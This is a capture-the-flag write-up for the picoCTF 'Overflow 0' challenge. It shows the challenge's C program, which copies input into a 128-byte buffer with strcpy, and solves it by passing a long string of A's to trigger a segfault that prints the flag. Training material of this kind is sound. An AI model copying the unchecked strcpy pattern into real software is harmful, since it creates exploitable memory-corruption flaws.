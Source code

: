 # Overflow 0 - 100 points
Binary Exploitation

## Description:
> This should be easy. Overflow the correct buffer in this program and get a flag.

## Hint:
> Find a way to trigger the flag to printIf you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.

### Files in shell: vuln.c, vuln, flag.txt

### vuln.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("You entered: %s", argv[1]);
  }
  else
    printf("Please enter an argument next time\n");
  return 0;
}
```
## Solving:

In this challenge, we just need to trigger the segmentation fault to make the sigsegv_handler call the contents of the flag.txt by producing an argument/input that is more than the stated buffer of 128 bytes. Rather than creating a python script for this, you can simply just produce a long string of A's in bash with:

```c
string=$(printf "%200s"); echo ${string// /A}
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
```c
./vuln AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
picoCTF{3asY_P3a5yd4a28467}
```

Definetly not as elegent as using pwntools but did the job. 

